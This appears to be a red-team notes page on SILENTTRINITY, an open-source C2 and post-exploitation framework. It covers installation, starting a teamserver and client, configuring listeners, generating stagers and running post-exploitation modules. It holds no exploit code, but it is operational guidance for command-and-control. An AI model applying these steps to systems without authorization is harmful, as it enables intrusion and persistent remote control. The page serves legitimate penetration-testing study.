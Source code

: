 # ⭕ Silent Trinity

## <mark style="color:red;">Intro</mark>

> SILENTTRINITY is a modern, asynchronous, multiplayer & multiserver C2/post-exploitation framework. It's the culmination of an extensive amount of research into using embedded third-party .NET scripting languages to dynamically call .NET API's, a technique the author coined as BYOI (Bring Your Own Interpreter). The aim of this tool and the BYOI concept is to shift the paradigm back to PowerShell style like attacks (as it offers much more flexibility over traditional C# tradecraft) only without using PowerShell in anyway.

#### Using it is pretty much like powershell empire.

{% embed url="https://github.com/byt3bl33d3r/SILENTTRINITY" %}

{% embed url="https://github.com/byt3bl33d3r/SILENTTRINITY/wiki" %}

#### Some of the main features that distinguish SILENTTRINITY are:

* **Multi-User & Multi-Server** - Supports multi-user collaboration. Additionally, the client can connect to and control multiple Teamservers.
* **Client and Teamserver Built in Python 3.7** - Latest and greatest features of the Python language are used, heavy use of Asyncio provides ludicrous speeds.
* **Real-time Updates and Communication** - Use of Websockets allow for real-time communication and updates between the Client and Teamserver.
* **Focus on Usability with an Extremely Modern CLI** - Powered by [prompt-toolkit](https://github.com/prompt-toolkit/python-prompt-toolkit).
* **Dynamic Evaluation/Compilation Using .NET Scripting Languages** - The SILENTTRINITY implant [Naga](https://github.com/byt3bl33d3r/Naga), is somewhat unique as it uses embedded third-party .NET scripting languages (e.g. [Boolang](https://github.com/boo-lang/boo)) to dynamically compile/evaluate tasks, this removes the need to compile tasks server side, allows for real-time editing of modules, provides greater flexibilty and stealth over traditional C# based payloads and makes everything much more light-weight.
* **ECDHE Encrypted C2 Communication** - SILENTTRINITY uses Ephemeral Elliptic Curve Diffie-Hellman Key Exchange to encrypt all C2 traffic between the Teamserver and its implant.
* **Fully Modular** - Listeners, Modules, Stagers and C2 Channels are fully modular allowing operators to easily build their own.
* **Extensive logging** - Every action is logged to a file.
* **Future proof** - HTTPS/HTTP listeners are built on [Quart](https://gitlab.com/pgjones/quart) & [Hypercorn](https://gitlab.com/pgjones/hypercorn) which also support HTTP2 & Websockets.

## <mark style="color:red;">Installation</mark>

#### native install:

```
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY
python3 -m pip install -r requirements.txt
python3 st.py -h
```

#### using pipenv:

```
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
pip3 install --user pipenv && pipenv install && pipenv shell
python3 st.py -h
```

#### Install required python modules (optional):

```
sudo pip3 install netifaces && sudo pip3 install docopt && sudo pip3 install defusedxml && sudo pip3 install websockets && sudo pip3 install aiosqlite && sudo pip3 install termcolor
```

### <mark style="color:orange;">Server</mark>

#### Start the application, use the IP of the server in which the client should connect, and a password:

```
python3 st.py teamserver 192.168.0.19 Pass
```

{% hint style="info" %}
It is important to note the Teamserver certificate, and compare it with the one the client gets. At this point in time we are waiting for a valid request to come in from a valid client.
{% endhint %}

#### Run netstat to verify the server is listening on the specified port, in this case we are using the default 5000

```
ss -ant | grep 5000
```

### <mark style="color:orange;">Client</mark>

#### Run the application as client

```
python3 st.py client
```

#### connect to server:

```
teamserver
connect wss://user1:Pass@192.168.0.19:5000
```

## <mark style="color:red;">Basic Usage</mark>

### <mark style="color:orange;">Listeners</mark>

#### go to listeners menu:

```
listeners
```

#### silent trinity has 3 types of listeners:

* wmi
* http
* https

#### choose and start a listener:

```
ST (listeners) ≫ use https
ST (listeners)(https) ≫ set Name test-listener
ST (listeners)(http) ≫ set BindIP 127.0.0.1
ST (listeners)(http) ≫ set Port 8888
ST (listeners)(http) ≫ start
```

### <mark style="color:orange;">Stagers</mark>

#### go to stagers tab:

```
stagers
list
```

#### silent trinity has the following stagers:

* msbuild (XML inline C# task)
* exe
* csharp
* wmic (XSL execution)
* dll
* powershell script

#### choose a stager :

```
ST (stagers) ≫ use powershell
ST (stagers)(powershell) ≫ generate test-listener
```

### <mark style="color:orange;">Post-exploitation</mark>

#### list sessions:

```
ST (stagers)(powershell) ≫ sessions
ST (sessions) ≫list
```

#### select a post-exploitation module to use:

```
ST (sessions) ≫ modules
ST (modules) ≫ list
```

example:

```
 ST (modules) ≫ use boo/shell
  ST (modules)(boo/shell) ≫ options
  ST (modules)(boo/shell) ≫ set command whoami 
   run [session ID]
```

## <mark style="color:red;">In-Depth Usage</mark>&#x20;

{% embed url="https://www.hackingarticles.in/command-control-silenttrinity-post-exploitation-agent/" %}

{% embed url="https://www.jamescarroll.me/blog/introduction-to-silenttrinity-tutorial-2020" %}

{% embed url="https://www.youtube.com/watch?v=0_b3A1SOyVw" %}
